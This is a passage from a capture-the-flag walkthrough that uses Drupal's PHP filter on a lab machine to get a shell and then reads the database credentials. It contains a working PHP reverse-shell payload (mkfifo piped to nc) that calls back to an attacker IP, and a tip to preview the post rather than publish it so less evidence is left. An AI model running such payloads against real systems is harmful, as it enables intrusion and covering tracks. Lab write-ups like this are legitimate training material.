 I’ll create a new article by clicking “Content” -> “Add content” -> “Article”.
Because I’ve enabled the PHP filter, one option for “Test format” is “php”,
which I’ll select, enabling me to add php code. I’ll test it by creating an
article that contains `<?php phpinfo(); ?>`. On hitting “Preview”:

![1531824863447](https://0xdfimages.gitlab.io/img/1531824863447.png)

So get a shell with `<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh
-i 2>&1|nc 10.10.14.156 9001 >/tmp/f'); ?>`. On preview:

    
    
    root@kali# nc -lnvp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.156] from (UNKNOWN) [10.10.10.102] 43068
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

**OPSEC Note:** You don’t need to actually publish any changes in most CMS
systems to get your execution. If there’s a preview option, it will show the
code to just you, and still run it. Then, you can leave the post and not
publish, leaving less evidence behind.

With shell, get user.txt:

    
    
    $ cd /home/daniel
    $ cat user.txt
    d5111d4f...
    

## Privesc: www-data -> daniel

Whenever I get on a box via a web exploit, I also look for database config
information in the web pages. In this case, Drupal settings are stored in
`/var/www/html/sites/default/settings.php`:

    
    
    $databases = array (
      'default' =>
      array (
        'default' =>
        array (
          'database' => 'drupal',
          'username' => 'drupal',
          'password' => 'drupal4hawk',
          'host' => 'localhost',
          'port' => '',
          'driver' => 'mysql',
          'prefix' => '',
        ),
      ),
    );
    
